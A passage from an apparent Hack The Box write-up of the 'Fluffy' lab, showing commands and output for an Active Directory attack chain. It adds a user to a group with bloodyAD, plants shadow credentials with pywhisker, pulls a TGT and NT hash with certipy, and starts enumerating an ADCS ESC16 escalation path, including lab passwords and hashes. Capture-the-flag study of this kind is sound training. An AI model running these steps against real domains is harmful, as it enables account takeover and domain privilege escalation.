 ```shell
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --dc-ip 10.10.11.69 add groupMember "service accounts" p.agila
[+] p.agila added to service accounts
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$
```
now, we will `pywhisker` to setup an alternate credentials for the `ca_svc` user by writing a `certificate` to 
the `msDS-KeyCredentialLink` attribute
```shell
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ python3 ../../../tools/pywhisker-main/pywhisker/pywhisker.py -d "fluffy.htb" -u 'p.agila' -p 'prometheusx-303' --target "ca_svc" --action "add" --filename test2
[*] Searching for the target account
[*] Target user found: CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: a0087575-6cf1-171c-8270-00a3b9c6f500
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: test2.pfx
[+] PFX exportiert nach: test2.pfx
[i] Passwort für PFX: xB63KeX6Siqu4V8aMYR4
[+] Saved PFX (#PKCS12) certificate & key at path: test2.pfx
[*] Must be used with password: xB63KeX6Siqu4V8aMYR4
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$
```
using the certificate setup for `ca_svc`, we will use `certipy` to request the tgt and get the ntlm hash of `ca_svc` account.  
```shell
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ certipy auth -password xB63KeX6Siqu4V8aMYR4 -username ca_svc -domain fluffy.htb -pfx test2.pfx -dc-ip 10.10.11.69
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Got hash for 'ca_svc@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:ca0f4f9e9eb8a092addf53bb03fc98c8
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$
```
## Administrator - ADCS ESC16
Enumerating `AD CS` attack paths with `certipy`, we can see below that there is an ESC16 ADCS escalation path
```shell
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ certipy find -u ca_svc@fluffy.htb -hashes aad3b435b51404eeaad3b435b51404ee:ca0f4f9e9eb8a092addf53bb03fc98c8 -stdout -dc-ip 10.10.11.69
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
```